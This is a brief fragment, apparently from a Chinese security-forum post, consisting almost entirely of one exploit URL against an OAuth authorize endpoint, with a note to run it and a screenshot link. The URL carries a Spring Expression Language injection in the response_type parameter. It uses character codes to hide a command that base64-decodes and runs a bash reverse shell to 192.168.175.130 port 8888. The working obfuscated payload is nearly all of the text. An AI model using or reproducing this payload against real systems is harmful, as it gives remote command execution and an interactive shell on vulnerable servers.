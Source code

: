 ```php
http://192.168.175.209:8080/oauth/authorize?response_type=${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(98).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(70)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(83)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(43)).concat(T(java.lang.Character).toString(74)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(90)).concat(T(java.lang.Character).toString(71)).concat(T(java.lang.Character).toString(86)).concat(T(java.lang.Character).toString(50)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(51)).concat(T(java.lang.Character).toString(82)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(79)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(69)).concat(T(java.lang.Character).toString(51)).concat(T(java.lang.Character).toString(78)).concat(T(java.lang.Character).toString(83)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(79)).concat(T(java.lang.Character).toString(68)).concat(T(java.lang.Character).toString(103)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(79)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(80)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(54)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(125)))}&amp;client_id=acme&amp;scope=openid&amp;redirect_uri=http://test
```

执行一下

![image-20210521085717667](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b510d17c99efa9a1b398c899d530bfc76bcc8045.png)
